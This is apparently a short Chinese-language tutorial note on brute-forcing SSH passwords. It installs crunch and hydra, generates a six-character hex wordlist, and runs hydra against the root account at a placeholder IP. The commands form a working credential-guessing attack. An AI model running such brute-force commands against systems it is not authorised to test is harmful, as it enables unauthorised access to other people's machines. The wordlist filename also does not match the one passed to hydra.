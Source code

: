```yaml
---
title: 简单暴力破解SSH密码
tags: 技术
---
```


# 暴力破解ssh密码

# 工具
1. crunch(password generator)
	密码生成器，原理很简单，直接dfs遍历所有可能的组合即可
```shell
# debian
apt install crunch
# mac
brew install crunch
```


2. hydra(brute force credentials)
	暴力破解工具
```shell
# debian
apt install hydra
# mac
brew install hydra
```

# 开始实验

1. 生产随机密码
```shell
# crunch <min-len> <max-len> [<charset string>]
#         最小长度	最大长度	密码所包含的字符
crunch 6 6 0123456789abcdef -o 6chars.txt
```
2. 开始破解尝试破解ssh
```shell
# -l username 用户名
# -t thread 线程数
hydra -l root -P passwords.txt -t 6 ssh://ip(x.x.x.x)
```
